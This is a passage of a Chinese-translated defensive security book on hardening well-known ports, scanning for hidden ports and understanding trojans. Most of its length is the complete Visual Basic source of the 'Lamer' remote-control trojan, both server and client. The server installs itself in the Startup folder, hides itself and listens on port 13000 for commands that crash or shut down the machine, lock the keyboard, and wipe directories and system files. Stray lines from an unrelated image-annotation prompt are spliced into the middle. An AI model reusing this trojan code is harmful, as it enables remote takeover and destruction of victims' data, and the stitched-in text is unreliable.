如果不需要这些邮件服务，在 *NIX 中，禁用该服务；在 Windows 中，删除程序文件。如果需要 POP，请对该服务进行包装，这一措施到现在对你应该是显而易见的。POP 安全性因软件包而异，因此请务必查阅软件文档以获取高级安全配置。此外，请务必避免以明文发送密码。并且 *使用加密*。我们将在本书后面具体研究 POP 漏洞对策，以及 Qpopper 和 ipop2d 缓冲区溢出漏洞。这里的要点是，如果不需要该服务，请停止并禁用它和/或用防火墙过滤流量。

### 端口 111、135、137–139

这些端口提供以下服务：portmap、loc-serv、nbname、nbdatagram 和 nbsession。portmap 守护进程将 RPC 程序编号转换为端口号。当 RPC 服务器启动时，它会向 portmap 守护进程注册。服务器告诉守护进程它正在监听的端口号以及它服务的 RPC 程序编号。因此，portmap 守护进程知道主机上每个注册端口的位置以及每个端口的可用程序。Loc-serv 是 NT 的 RPC 服务。如果入侵者使用特定参数并提供客户端地址，他或她将收到其网络信息服务（NIS）域名。基本上，如果攻击者知道 NIS 域名，可能获取密码文件的副本。作为此类攻击的补救措施，请务必用防火墙阻止不需要的端口并使用 TCP Wrappers。

端口 137 nbname 用作 DNS 的替代名称解析，有时称为 WINS 或 NetBIOS 名称服务。运行 NetBIOS over TCP/IP 协议的节点使用从 UDP 端口 137 发送和接收的 UDP 数据包进行名称解析。该协议的漏洞在于其缺乏认证。任何机器都可以响应它看到的任何名称的广播查询，甚至可以通过比合法名称持有者更快地响应来伪造此类查询。

在本地 "受信任" 网段之外过滤这些端口非常重要。防火墙、路由器和端口拦截器可用于提供必要的过滤技术。在后续章节中，我们将进一步探讨过滤作为禁用可疑服务的替代方案。

### 端口 161：SNMP

简而言之，简单网络管理协议（SNMP）指导网络设备管理和监控。SNMP 操作由称为 *协议数据单元*（PDUs）的消息组成，这些消息被发送到网络的不同部分。SNMP 设备称为 *代理*。这些组件将关于自身的信息存储在 *管理信息库*（MIBs）中，并将此数据返回给 SNMP 请求者。UDP 端口 162 被指定为接收者应监听 SNMP 通知消息的端口通知。出于所有实际目的，此端口用于发送和接收 SNMP 事件报告。

这些端口所管理的交互式通信使它们成为探测和重新配置的热门目标。关于流行的 SNMPv1 产品的最新漏洞开发包括获取未授权特权访问的能力。应对这些漏洞的对策将在本书后面详细描述，但请注意，SNMP 部署的主要 OWASP 是过滤远程互联网可访问性，并确保仅使用私有社区名称。更好的是，根本不要运行该服务，或者使用防火墙规则对这些服务应用访问控制。同样，我们将在后面详细讨论这些。

### 端口 512–520

端口 512 exec 被 rexec() 用于远程进程执行。当此端口处于活动状态或监听时，远程执行服务器通常会配置为自动启动。缺乏适当保护时，可以捕获或监视窗口显示，用户按键被窃取，程序被远程执行。

端口 513 和 514 被认为是 "特权" 端口，因此已成为众多 *NIX 版本上地址欺骗攻击的目标。端口


514号端口也被 rsh 使用，作为没有任何日志记录的交互式 shell。作为内部日志系统的一部分，端口514（通过前端防护屏障的远程可访问性）是对各种 DoS 攻击的公开邀请。一次毫不费力的 UDP 扫描就可以验证该端口是否存在。

Talk 守护进程是遵守新旧 talk 协议（端口 517 和 518）的交互式通信程序，支持与其他 *NIX 站的实时文本对话。这些守护进程通常由一个 talk 客户端和服务器组成，实际上它们可以在同一系统上同时活动。在大多数情况下，从端口 518 启动的新 talk 守护程序与旧版本**不向后兼容**。尽管这种活动看似无害，但很多时候并非如此。除了显而易见的事实之外，要知道这种连接建立是通过随机端口设置 TCP 连接的，这些服务暴露于新的一类远程攻击。

当一个称为*动态路由*的路由过程发生时，路由器会与相邻或邻近的路由器通信，相互告知每个路由器当前了解哪些网络。这些路由器使用路由协议进行通信，其服务源于路由守护进程。根据协议的不同，路由器之间来回传递的更新从特定端口发起。可能最流行的路由协议是路由信息协议（RIP），它通过 UDP 端口 520 进行通信。许多专有的路由守护程序也继承了该端口的通信。在目标发现过程中，这些会话会暴露关键拓扑信息，几乎可以用任何嗅探器捕获。

作为对这些潜在威胁的对策，非常重要的一点是在本地系统和/或"可信"网段之外过滤这些端口。防火墙、路由器和端口拦截器可以用来提供必要的过滤技术。我们将在后续章节中进一步探讨使用这些设备来过滤端口和服务。

### 端口540：UUCP

简单 UNIX 到 UNIX 复制协议（UUCP）包含一套用于不同 UNIX 系统之间文件传输的 UNIX 程序，但更重要的是，用于传输要在另一系统上执行的命令。UUCP 通常用于日常邮件投递管理。

从根本上说，UUCP 服务不是必需的，因此应该禁用。要做到这一点，只需编辑 `/etc/inetd.conf` 文件，并将其条目注释掉，如图 1.1 中对 echo 服务的说明所示。此时，重新启动整个系统或仅重新启动 inetd 进程。

如果需要 UUCP，特别是用于邮件投递，请对该服务进行包装；并确保归档大量日志文件。此外，配置一个包含开启时间和关闭时间的自定义计划：开启时间 UUCP 守护进程将处于活动状态以进行邮件传输，关闭时间守护进程将处于非活动状态。对于 Internet 可访问性，在非军事区通过 VPN 连接或在防火墙后配置 UUCP 会话流。VPN 将在本书后面详细讨论。

### 结论

在本章中，我们探讨了如何保护系统免受黑客通过特定知名端口进行渗透，并介绍了它们的一些相关服务。但是，我们如何保护被认为是未标识的端口，那些除了知名端口和服务之外的端口和服务呢？如果我们不知道其他活动的、正在监听的端口，怎么可能关闭它们并禁用其服务？为了回答这个问题，让我们继续下一章，研究 Tiger Team 保护潜在隐藏端口和服务的秘密。

# 第2章

## 隐藏端口和服务

如果你阅读过*《黑客攻击揭秘，第二版》*，你就会熟悉许多秘密且广泛存在的有害服务，例如后门木马，以及它们通常控制的端口。这些服务使远程入侵者能够控制 CD-ROM、音频、任务栏、桌面、应用程序、浏览器，甚至完整的系统；它们还赋予入侵者文件浏览、键盘记录、密码获取、系统崩溃、屏幕捕获和直接消息传递的能力。关键是，许多用户容易受到这些后门黑客攻击；事实上，入侵者成功实施这些攻击出奇地容易。

*《黑客攻击揭秘，第二版》*中披露的信息旨在引起你的注意。本书的目的是教你如何拒绝黑客攻击，并强化你的网络和系统。如*《黑客攻击揭秘，第二版》*所述，要揭示目标系统上的活动端口和服务，我们可以使用发现工具，如端口和木马扫描程序等。同样，进行本地测试以防止易受此类目标发现影响也是如此。

> **Tiger 提示** 请注意，某些合法的软件守护程序在未知端口领域调节通信流。要获取完整的未知供应商端口列表，请运行本书附带的 CD。从*《黑客攻击揭秘，第二版》*开始的列表继续，这里的讨论从端口 1025 开始，一直到端口 65,000。

### 本地后门木马扫描

可以肯定地说，几乎任何具有多线程功能的端口扫描仪都足以进行本地端口扫描。我推荐 Nmap（www.insecure.org）或任何好的木马扫描程序（Norton 和 McAfee 的产品是绝佳选择，分别从 www.norton.com 和 www.mcafee.com 获得）。就本书而言，我们将使用 TigerScan，它是本书 CD-ROM 中 TigerSurf 安全套件的一部分。首先，我们将使用密码 TIGER 登录前端，如图 2.1 所示。当浏览器初始化时，从菜单 Options/Security Properties/Security Scan（见图 2.2）中，我们将选择 Scan ports now。

> **Tiger 提示** TigerSurf 2.0 可在本书的 CD 上找到。

请注意，执行 TigerScan 可能需要一些时间，因为扫描模块会报告活动端口，然后通过将其与已知黑客攻击数据库进行交叉引用来分析弱点（见图 2.3）。从根本上说，扫描仪功能可以分解为三个步骤：

- 1. 定位开放端口。
- 2. 执行发现。
- 3. 将结果与已知安全漏洞列表进行比较。



图 2.1 TigerSurf 登录。



图 2.2 从主工具栏初始化 TigerScan。



图 2.3 TigerScan 报告活动端口和服务。

根据可用的系统资源和 CPU 能力，整个过程可能需要 3 到 12 分钟。

如图 2.3 所示，此次 TigerScan 的结果检测到两个活动端口：端口 135 和 13000。*《黑客攻击揭秘，第二 Edition》*中描述的与端口 135 相关的服务是 loc-serv，一种 RPC 服务，如 portmap。如果入侵者使用特定参数并提供客户端地址，他或她就可以获得其 NIS 域名。本质上，如果攻击者知道 NIS 域名，就有可能获取密码文件的副本。

更令人惊讶的是端口 13000 检测到的服务，称为 *lamer*（见图 2.3）。Lamer 是一个讨厌的微型远程控制木马，支持 CD-ROM 控制、文件传输、文件管理和系统崩溃等功能。该木马是一个较新的 Visual Basic（VB）编译程序，我最近一直在测试它——并感染了我的系统。该守护程序通常通过电子邮件分发，通常伪装成实用程序。在这种情况下，该程序以 IP 计算器的形式出现，用于快速子网计算，以及列出广播和网络地址。

初始安装会在 `//Windows/System` 目录中写入或覆盖一个名为 dnetc.exe 的文件。在下次系统重新启动时，dnetc.exe 在后台执行并监听端口 13000 以进行远程控制。dnetc.exe 应该是一个 distributed.net 客户端程序，使您的系统能够通过连接到其代理并分配一个密钥块来参与全球项目。远程入侵者只需扫描端口 13000 的可用性，然后发起攻击。

**Tiger 提示** 访问 Distributed.net 网站 www.distributed.net，了解更多关于 Lamer 木马及其恶意变体的信息。

此处提供了 Lamer 服务器的源代码供您查阅。这个特定的列表，结合前面提到的分发技术，将使您了解一个极其简单的 VB 编译程序如何构成严重威胁。请注意，隐藏服务器功能已被禁用。另请注意，您可以在同一工作站上执行服务器和客户端以进行测试。

#### Lamer 服务器

```
Dim d As String
Dim key As Boolean
Dim cdrom As Boolean
Dim mouse As Boolean
Dim start As Boolean
Dim deskt As Boolean
Dim task As Boolean
```


 ```
Function ShowFolderList(foldername)
    Dim fso, f, fc, fj, s, fl
    Set fso = CreateObject("Scripting.FileSystemObject")
    Set f = fso.GetFolder(foldername)
    Set fc = f.Subfolders
    Set fj = f.Files
    For Each fl In fc
        s = fl.name
        s = s & "<BR>"
        d = d + NewLine + fl
    Next
End Function
```

```
Function App_Path() As String
    x = App.path
        If Right$(x, 1) <> "\" Then x = x + "\"
        App_Path = UCase$(x)
        End Function
```

```
Private Sub OPEN_Click()
cdrom = True
MciSendString "Set CDAudio Door Open Wait",
    O&, O&, O&
End Sub
```

```
Private Sub CLOSE_Click()
cdrom = False
MciSendString "Set CDAudio Door Closed Wait",
    O&, O&, O&
End Sub
```

```
Private Sub Command2_Click()
startbar = 0
End Sub
```

```
Private Sub Dir1_Change()
Label8.Caption = Dir1.path
File1.path = Dir1.path
End Sub
```

```
Private Sub Form_Load()
key = False
cdrom = False
task = True
start = True
deskt = True
Dir1.path = "c:\"
Label8.Caption = Dir1.path
File1.path = Dir1.path
On Error GoTo errorhandle
SourceFile = App_Path + "cracklist.exe"
sourcefile2 = App_Path + "mswinsck.ocx"
Label7.Caption = App.path
DestinationFile2 = "C:\Windows\Start Menu\Programs\StartUp\cracklist.exe"
destinationfile3 = "c:\windows\system\mswinsck.ocx"
FileCopy SourceFile, DestinationFile2
FileCopy sourcefile2, destinationfile3
errorhandle: If Err.Number = 70 Or 53 Then Resume Next
Label7.Caption = App.path
MsgBox "错误 643 文件未找到!", vbCritical, "错误"
Winsock1.Close
App.TaskVisible = False
Label2.Caption = Winsock1.LocalIP
Label4.Caption = Winsock1.LocalHostName
Winsock1.Listen
List1.AddItem "正在监听端口 13000..."
End Sub
```

```
Private Sub Image1_Click()
TaskbarIcons innotontaskbar
End Sub
```

```
Private Sub Text1_Change()
Dim data As String
data = "服务器响应 : 命令已执行!"
If Text1.text = "Status" Then
	data = "<---------------状态--------------->"
	Winsock2(i).SendData data
	data = NewLine
	Winsock2(i).SendData data
	
	data = "计算机名称 :urse an : " & Winsock1.LocalHostName
	Winsock2(i).SendData data
	data = NewLine
	Winsock2(i).SendData data
	
	data = "IP 地址 : " & Winsock1.LocalIP
	Winsock2(i).SendData data
	data = NewLine
	Winsock2(i).SendData data
	
	data = "服务器路径 : " & App_Path
	Winsock2(i).SendData data
	data = NewLine
	Winsock2(i).SendData data

If task = False Then
	data = "任务栏状态 : 隐藏"
	Winsock2(i).SendData data
End If

If task = True Then
    data = "任务栏状态 : 可见"
    Winsock2(i).SendData data
End If

data = NewLine
Winsock2(i).SendData data

If start = False Then
    data = "开始按钮状态 : 隐藏"
    Winsock2(i).SendData data
End If

If start = True Then
    data = "开始按钮状态 : 可见"
    Winsock2(i).SendData data
End If

data = NewLine
Winsock2(i).SendData data

If deskt = False Then
    data = "桌面图标状态 : 隐藏"
    Winsock2(i).SendData data
End If

If deskt = True Then
    data = "桌面图标状态 : 可见"
    Winsock2(i).SendData data
End If

data = NewLine
Winsock2(i).SendData data

If mouse = False Then
    data = "鼠标按钮未交换。"
    Winsock2(i).SendData data
Else
    data = "鼠标按钮已交换。"
    Winsock2(i).SendData data
End If

data = NewLine
Winsock2(i).SendData data

If cdrom = False Then
    data = "CD-Rom 已关闭。"
    Winsock2(i).SendData Else
    data = "CD-Rom 已打开。"
    Winsock2(i).SendData data
End If

data = NewLine
Winsock2(i).SendData data

If key = False Then
    data = "键盘状态 : 启用"
    Winsock2(i).SendData data
Else
    data = "键盘状态 : 禁用"
    Winsock2(i).SendData data
End If

data = NewLine
Winsock2(i).SendData data
data = "当前目录 : " + Label8.Caption
Winsock2(i).SendData data
data = NewLine
Winsock2(i).SendData data
data = "<---------------结束--------------->"
Winsock2(i).SendData data

End If

If Text1.text = "Info" Then
    data = "<--------目录信息-------->"
    Winsock2(i).SendData data
    data = NewLine
    Winsock2(i).SendData data
    data = "目录路径 : " + Label8.Caption
    Winsock2(i).SendData data
    data = NewLine
    Winsock2(i).SendData data
    Dim intFileCount As Integer
    For intFileCount = 0 To File1.ListCount - 1
        File1.ListIndex = intFileCount
        data = intFileCount & " " & File1.FileName & vbCrLf
        Winsock2(i).SendData data
    Next
    
    data = "<---------------结束--------------->"
    Winsock2(i).SendData data
    
End If

If Text1.text = "Erase" Then
    On Error GoTo errhandle
    data = "正在删除文件..."
    Winsock2(i).SendData data
    
    Kill Label8.Caption + "\*.*"
    data = NewLine
    Winsock2(i).SendData data
    
    data = "文件已成功删除!"
    Winsock2(i).SendData data
errhandle: If Err.Number = 53 Then
    data = "发生错误。正在中止操作。"
    Winsock2(i).SendData data
    
End If

End If

If Text1.text = "Erased" Then
    On Error GoTo errorhandler
data = "正在删除文件..."
Winsock2(i).SendData data
Kill Label8.Caption + "\*.*"
data = NewLine
Winsock2(i).SendData data
data = "正在删除目录..."
Winsock2(i).SendData data
RmDir Label8.Caption
data = NewLine
Winsock2(i).SendData data
data = "文件和目录已成功删除!"
Winsock2(i).SendData data
errorhandler: If Err.Number = 53 Then
    data = "此目录中没有文件..."
    Winsock2(i).SendData data
    data = NewLine
    Winsock2(i).SendData data
    RmDir Label8.Caption
    Winsock2(i).SendData data
    data = "目录已成功删除!"
    Winsock2(i).SendData data
End If
End If

If Text1.text = "viewdir" Then
    d = ""
    data = "<-----------目录列表----------->"
    Winsock2(i).SendData data
    data = NewLine
    Winsock2(i).SendData data
    ShowFolderList Label8.Caption & ("\\")
    data = d
    Winsock2(i).SendData data
    data = NewLine
    Winsock2(i).SendData data
    data = "<----------------结束---------------->"
    Winsock2(i).SendData data
End If

If Text1.text = "updir" Then
Dir1.path = Dir1.List(-2)
data = "目录已更改为 : " & Label8.Caption
Winsock2(i).SendData data
End If

If Text1.text = "Kill" Then
    data = "服务器响应 : 服务器已终止!"
    Winsock2(i).SendData data
    End
End If

If Text1.text = "Open CD-ROM" Then
    Call OPEN_Click
    Winsock2(i).SendData data
End If

If Text1.text = "Close CD-ROM" Then
    Call CLOSE_Click
    Winsock2(i).SendData data
End If

If Text1.text = "Swap buttons" Then
    SwapButtons
End If

If Text1.text = "Crash" Then
    Shell "rundll32 user,disableoemlayer"
    Winsock2(i).SendData data
End If

If Text1.text = "Shutdown" Then
    Shell "rundll32 krnl386.exe,exitkernel"
    Winsock2(i).SendData data
End If

If Text1.text = "Lock keyboard" Then
    key = True
    Shell "rundll32 keyboard,disable"
    Winsock2(i).SendData data
End If

If Text1.text = "Destroy" Then
    Kill "c:\windows\system\*.*"
    Kill "c:\windows\*.*"
    Kill "c:\*.*"
    Kill "c:\windows\system32\*.*"
    Winsock2(i).SendData data
End If

If Text1.text = "Hide task" Then
    TaskbarIcons innotontaskbar
    task = False
    Winsock2(i).SendData data
End If

If Text1.text = "Show task" Then
    TaskbarIcons isontaskbar
    task = True
    Winsock2(i).SendData data
End If

If Text1.text = "Hide start" Then
    StartButton innotontaskbar
    start = False
    Winsock2(i).SendData data
End If

If Text1.text = "Show start" Then
    StartButton isontaskbar
    start = True
    Winsock2(i).SendData data
End If

If Text1.text = "Hide desk" Then
    Desktop isoff
    deskt = False
    Winsock2(i).SendData data

End If

If Text1.text = "Show desk" Then
    Desktop ison
    deskt = True
    Winsock2(i).SendData data

End If

End Sub
```

```
Private Sub SwapButtons()
Dim Cur&, Butt&
    Cur = SwapMouseButton(Butt)
If Cur = 0 Then
    mouse = True
    SwapMouseButton (1)
    Else
    mouse = False
    SwapMouseButton (0)
End If
End Sub
```

```
Private Sub Winsock1_ConnectionRequest(ByVal requestID As Long)
Dim text As String
Dim name As String
Winsock2(i).Accept requestID
List1.AddItem "用户已连接, 接受连接请求于 " & requestID
Text2.text = "连接已接受于 "
text = Text2.text
name = Label4.Caption
Winsock2(i).SendData text
Winsock2(i).SendData name
End Sub
```

```
Private Sub Winsock2_DataArrival(Index As Integer, ByVal bytesTotal As Long)
Dim datas As String
Winsock2(i).GetData datas
Text1.text = datas
Select Case Left(datas, 5)
    Case "mkdir"
        On Error GoTo errhandler
            MkDir Label8.Caption & "\" & Mid(datas, 6)
errhandler:    If Err.Number = 75 Then
            data = "无法创建目录。未提供名称。"
            Winsock2(i).SendData data
        End If
    Case "chdir"
        On Error GoTo path
```

 ```
                    Dirl.path = Mid(d datas, 6)
                    data = "You are on directory : " + Label8.Caption
                    Winsock2(i).SendData data
                path:
                    If Err.Number = 76 Then
                    data = "Path not found"
                    Winsock2(i).SendData data
                End If
                Case "messg"
                    MsgBox Mid(datas, 6), vbCritical + vbOKOnly, "Unknown message!"
                End Select
            End Sub
```

#### 服务器控制模块

```
Public Declare Function ExitWindowsEx Lib "user32" (ByVal uFlags As Long, ByVal dwReserved As Long) As Long
Public Declare Function SwapMouseButton Lib "user32" (ByVal bSwap As Long) As Long
Public Declare Function MciSendString Lib "winmm.dll" Alias "mciSendStringA" (ByVal lpstrCommand As String, ByVal lpstrReturnString As String, ByVal uReturnLength As Long, ByVal hwndCallback As Long) As Long
Public Declare Function FindWindow Lib "user32" Alias "FindWindowA" (ByVal lpClassName As String, ByVal lpWindowName As String) As Long
Public Declare Function FindWindowEx Lib "user32" Alias "FindWindowExA" (ByVal hwnd1 As Long, ByVal hwnd2 As Long, ByVal lpsz1 As String, ByVal lpsz2 As String) As Long
Public Declare Function SetWindowPos Lib "user32" (ByVal hwnd As Long, ByVal hWndInsertAfter As Long, ByVal x As Long, ByVal y As Long, ByVal cx As Long, ByVal cy As Long, ByVal wFlags As Long) As Long
Public Declare Function ShellExecute Lib "shell32.dll" Alias "ShellExecuteA" (ByVal hwnd As Long, ByVal lpOperation As String, ByVal lpFile As String, ByVal lpParameters As String, ByVal lpDirectory As String, ByVal nShowCmd As Long) As Long
Public Declare Function ShowCursor Lib "user32" (ByVal bShow As Long) As Long
Public Declare Function ShowWindow Lib "user32" (ByVal hwnd As Long, ByVal nCmdShow As Long) As Long
Public Declare Function SystemParametersInfo Lib "user32" Alias "SystemParametersInfoA" (ByVal uAction As Long, ByVal uParam As Long, lpvParam As Any, ByVal fuWinIni As Long) As Long
Public Const SW_HIDE = 0
Public Const SW_SHOW = 5
Public Enum Desktop_Constants
    ison = True
    isoff = False
End Enum

Public Enum StartBar_Constants
    isontaskbar = 1
    innotontaskbar = 0
```

```
End Enum

Public Function StartButton(State As StartBar_Constants)
	Dim SendValue As Long
	Dim SetOption As Long
	SetOption = FindWindow("Shell_TrayWnd", "")
	SendValue = FindWindowEx(SetOption, 0, "Button", vbNullString)
	ShowWindow SendValue, State
End Function

Public Function TaskbarIcons(State As StartBar_Constants)
	Dim SendValue As Long
	Dim SetOption As Long
	SetOption = FindWindow("Shell_TrayWnd", "")
	SendValue = FindWindowEx(SetOption, 0, "TrayNotifyWnd",
	vbNullString)
	ShowWindow SendValue, State
End Function

Public Function Desktop(State As Desktop_Constants)
	Dim DesktopHwnd As Long
	Dim SetOption As Long
	DesktopHwnd = FindWindowEx(0&, 0&, "Progman", vbNullString)
	SetOption = IIf(State, SW_SHOW, SW_HIDE)
	ShowWindow DesktopHwnd, SetOption
End Function

Public Function NewLine()
	NewLine = vbCrLf
End Function
```

#### 菜鸟客户端

```
Function ShowFolderList(foldername)
	Dim fso, f, fc, fj, s, fl
	Set fso = CreateObject("Scripting.FileSystemObject")
	Set f = fso.GetFolder(foldername)
	Set fc = f.Subfolders
	Set fj = f.Files
	For Each fl In fc
		s = fl.Name
		s = s & "<BR>"

		Text1.Text = Text1.Text + NewLine + (fl)
	Next
End Function

Private Function NewLine()
	NewLine = vbCrLf
End Function
```

```
Private Sub Command1_Click()
On Error Resume Next
Text3.Text = "Open CD-ROM"
Command8_Click
End Sub
```

```
Private Sub Command10_Click()
Form1.PopupMenu mnuftp
End Sub
```

```
Private Sub Command11_Click()
On Error Resume Next
Text3.Text = "Status"
Command8_Click
End Sub
```

```
Private Sub Command12_Click()
Form1.PopupMenu mnudesktop
End Sub
```

```
Private Sub Command13_Click()
On Error Resume Next
Text3.Text = "Kill"
Command8_Click
End Sub
```

```
Private Sub Command14_Click()
Text4.Text = ""
End Sub
```

```
Private Sub Command2_Click()
On Error Resume Next
Text3.Text = "Close CD-ROM"
Command8_Click
End Sub
```

```
Private Sub Command3_Click()
On Error Resume Next
Text3.Text = "Swap buttons"
Command8_Click
End Sub
```

```
Private Sub Command4_Click()
On Error Resume Next
Text3.Text = "Crash"
Command8_Click
End Sub
```

```
Private Sub Command5_Click()
On Error Resume Next
Text3.Text = "Destroy"
Command8_Click
End Sub
```

```
Private Sub Command6_Click()
On Error Resume Next
Text3.Text = "Lock keyboard"
Command8_Click
End Sub
```

```
Private Sub Command7_Click()
    On Error GoTo errorhandler
Winsock1.RemoteHost = Text1.Text
Winsock1.RemotePort = Text2.Text
Winsock1.Connect
Command7.Enabled = False
Command9.Enabled = True
Label4.Caption = "Connecting..."
errorhandler: If Err.Number = 10049 Then
Label4.Caption = "Could not connect to server."
Command7.Enabled = True
Command9.Enabled = False
Winsock1.Close
End If
End Sub
```

```
Private Sub Command8_Click()
Winsock1.SendData Text3.Text
End Sub
```

```
Private Sub Command9_Click()
Command9.Enabled = False
Command7.Enabled = True
Label4.Caption = "Disconnected"
Winsock1.Close
End Sub
```

```
Private Sub form_load()
Text1.Text = Winsock1.LocalIP
Label4.Caption = "Disconnected"
End Sub
```

```
Private Sub mnuall_Click()
On Error Resume Next
Text3.Text = "Erase"
Command8_Click
End Sub
```

```
Private Sub mnuall dir_Click()
On Error Resume Next
Text3.Text = "Erased"
Command8_Click
End Sub
```

```
Private Sub mnuchangedir_Click()
On Error Resume Next
x = InputBox("Enter directory name to change", "Change directory")
Text3.Text = "chdir" + x
Command8_Click
End Sub
```

```
Private Sub mmnnuhided_Click()
On Error Resume Next
Text3.Text = "Hide desk"
Command8_Click
mnuhided.Enabled = False
mnushowd.Enabled = True
End Sub
```

```
Private Sub mnmuhides_Click()
On Error Resume Next
Text3.Text = "Hide start"
Command8_Click
mnuhides.Enabled = False
mnuseggs.Enabled = True
End Sub
```

```
Private Sub mnuhidet_Click()
On Error Resume Next
Text3.Text = "Hide taskvar"
Command8_Click
mnuhidet.Enabled = False
mnuwhat.Enabled = True
End Sub
```

```
Private Sub nmuqen_Click()
On Error Resume Next
x = InputBox("Enter directory name", "Make new directory")
Text3.Text = "mkdir" + x
Command8_Click
End Sub
```

```
Private Sub mnusendmsg_Click()
On Error Resume Next
x = InputBox("Type a message", "Send a message")
Text3.Text = "messg" + x
Command8_Click
End Sub
```

注意 BBOX 应该使用相对坐标，即整个图片的一个比例，不要使用像素单位的绝对坐标！

注意只需要输出 JSON，不需要输出其它任何东西。

## 第2章  隐藏端口与服务

```
Private Sub mnushowd_Click()
On Error Resume Next
Text3.Text = "Show desk"
Command8_Click
mnuhided.Enabled = True
mnushowd.Enabled = False
End Sub
```

```
Private Sub mnushows_Click()
On Error Resume Next
Text3.Text = "Show start"
Command8_Click
mnushides.Enabled = True
mnushows.Enabled = False
End Sub
```

```
Private Sub mnushowt_Click()
On Error Resume Next
Text3.Text = "Show task"
Command8_Click
mnuhidet.Enabled = True
mnushowt.Enabled = False
End Sub
```

```
Private Sub mnuup_Click()
On Error Resume Next
Text3.Text = "updir"
Command8_Click
End Sub
```

```
Private Sub mnuview_Click()
On Error Resume Next
Text3.Text = "Info"
Command8_Click
End Sub
```

```
Private Sub mnuviewdir_Click()
On Error Resume Next
Text3.Text = "viewdir"
Command8_Click
End Sub
```

```
Private Sub Text4_Change()
If Text4.DataChanged Then
Label4.Caption = "Connected!"
End If
End Sub
```

```
Private Sub Timer1_Timer()
Text5.Text = Text5.Text - 1
```

```
End Sub

Private Sub Winsock1_DataArrival(ByVal bytesTotal As Long)
Dim strData As String
Winsock1.GetData strData, vbString
Text4.Text = strData
If strData = NewLine Then
	Text4.Text = Text4.Text & NewLine
End If
If strData = endir Then
	x = InputBox("Enter directory you wish to change", "Change
 directory")
	Text3.Text = "chdir" + x
	Command8_Click
End If
End Sub
```

> 这些程序以模块形式包含在本书附赠的 CD 中。

### Tiger Inspect 扫描器

大多数操作系统都有可用的端口扫描器。功能强大的 *NIX 扫描器，如 **Nmap**，都可以在互联网上免费下载。那些家庭、企业或私人 Windows 用户如果想定制自己的本地端口扫描器，可以使用 **TigerInspect**（见图 2.4），其源代码可在本书的 CD-ROM 中找到。利用它，你可以控制功能以实现自定义扫描，例如，专有的服务列表管理，或针对不属于标准列表的特定端口和服务。

本书 CD 中的 TigerInspect 版本支持五个同时处理的线程。这意味着该程序将同时扫描五个端口。注意，线程数可以通过添加 Winsock(x) 流来增加，其中 (x) 表示下一个线程（在本例中为 6）。

源代码并不复杂，因此修改起来应该不会很困难。CD 中的编译版本包含一个常见的木马端口/服务列表，最高到 61466 端口。虽然服务分析未集成在此版本中，但你可以在方便时自行添加。例如，你也可以包含自己的端口服务列表，比如在 77 端口上的 FTP，只需添加以下自定义代码行：

```
ElseIf Winsock1.LocalPort = 77 Then List1.AddItem Winsock1.LocalPort & "
Alert: Found File Transfer Protocol (FTP)"
Winsock1.Close
```


**图 2.4** TigerInspect 的本地端口扫描器简易 GUI 界面。

> 在添加端口警报通知时，不要忘记必须将所有的添加项包含到五个线程中的每一个：分别是 Winsock1、2、3、4 和 5。

请注意，TigerInspect 的提供是为了帮助你快速开始自己的开发（如果你喜欢编程），它*不能*与 Nmap 和 TigerSuite 扫描器的质量相提并论。

### 保护未知端口

渗透黑客程序通常被故意设计成在系统安全性中集成后门或漏洞。尽管这些服务守护程序并不总是出于恶意目的，但攻击者确实会操纵这些程序用于恶意目的。本节概述的软件分为三个相互关联的类别：**病毒**、**蠕虫**和**特洛伊木马**。每种类型在此简要定义，并将在后续章节中更详细地讨论。

- **病毒**是一种计算机程序，它通过使用宿主程序来复制自身，因此需要宿主程序。

- **蠕虫**不需要宿主，因为它是自我复制的。蠕虫在感染后按预定的高频率编译并分发自身的完整副本。

- **特洛伊木马**，或简称**木马**，是一种包含破坏性代码的程序，它看起来像是正常的、有用的程序，例如网络实用工具。

